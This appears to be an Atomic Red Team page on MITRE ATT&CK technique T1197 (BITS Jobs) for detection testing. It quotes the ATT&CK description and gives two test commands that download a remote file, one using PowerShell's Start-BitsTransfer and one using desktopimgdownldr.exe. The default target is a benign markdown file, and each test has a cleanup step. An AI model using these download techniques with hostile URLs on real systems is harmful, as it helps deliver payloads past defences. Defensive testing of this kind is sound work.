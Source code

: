 # T1197 - BITS Jobs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1197)
<blockquote>Adversaries may abuse BITS jobs to persistently execute or clean up after malicious payloads. Windows Background Intelligent Transfer Service (BITS) is a low-bandwidth, asynchronous file transfer mechanism exposed through [Component Object Model](https://attack.mitre.org/techniques/T1559/001) (COM).(Citation: Microsoft COM)(Citation: Microsoft BITS) BITS is commonly used by updaters, messengers, and other applications preferred to operate in the background (using available idle bandwidth) without interrupting other networked applications. File transfer tasks are implemented as BITS jobs, which contain a queue of one or more file operations.

The interface to create and manage BITS jobs is accessible through [PowerShell](https://attack.mitre.org/techniques/T1059/001) and the [BITSAdmin](https://attack.mitre.org/software/S0190) tool.(Citation: Microsoft BITS)(Citation: Microsoft BITSAdmin)

Adversaries may abuse BITS to download, execute, and even clean up after running malicious code. BITS tasks are self-contained in the BITS job database, without new files or registry modifications, and often permitted by host firewalls.(Citation: CTU BITS Malware June 2016)(Citation: Mondok Windows PiggyBack BITS May 2007)(Citation: Symantec BITS May 2007) BITS enabled execution may also enable persistence by creating long-standing jobs (the default maximum lifetime is 90 days and extendable) or invoking an arbitrary program when a job completes or errors (including after system reboots).(Citation: PaloAlto UBoatRAT Nov 2017)(Citation: CTU BITS Malware June 2016)

BITS upload functionalities can also be used to perform [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).(Citation: CTU BITS Malware June 2016)</blockquote>

## Atomic Test - Bitsadmin Download (PowerShell)
This test simulates an adversary leveraging bitsadmin.exe to download
and execute a payload leveraging PowerShell

Upon execution you will find a github markdown file downloaded to the Temp directory

**Supported Platforms:** Windows


**auto_generated_guid:** f63b8bc4-07e5-4112-acba-56f646f3f0bc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| local_file | Local file path to save downloaded file | path | $env:TEMP&#92;bitsadmin2_flag.ps1|


#### Attack Commands: Run with `powershell`! 


```powershell
Start-BitsTransfer -Priority foreground -Source #{remote_file} -Destination #{local_file}
```

#### Cleanup Commands:
```powershell
Remove-Item #{local_file} -ErrorAction Ignore
```





<br/>
<br/>

This test simulates using desktopimgdownldr.exe to download a malicious file
instead of a desktop or lockscreen background img. The process that actually makes 
the TCP connection and creates the file on the disk is a svchost process (“-k netsvc -p -s BITS”) 
and not desktopimgdownldr.exe. See https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/

**Supported Platforms:** Windows


**auto_generated_guid:** afb5e09e-e385-4dee-9a94-6ee60979d114





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_file | Remote file to download | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md|
| download_path | Local file path to save downloaded file | path | SYSTEMROOT=C:&#92;Windows&#92;Temp|
| cleanup_path | path to delete file as part of cleanup_command | path | C:&#92;Windows&#92;Temp&#92;Personalization&#92;LockScreenImage|
| cleanup_file | file to remove as part of cleanup_command | string | *.md|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set "#{download_path}" && cmd /c desktopimgdownldr.exe /lockscreenurl:#{remote_file} /eventName:desktopimgdownldr
```

#### Cleanup Commands:
```cmd
del #{cleanup_path}\#{cleanup_file} >nul 2>&1
```
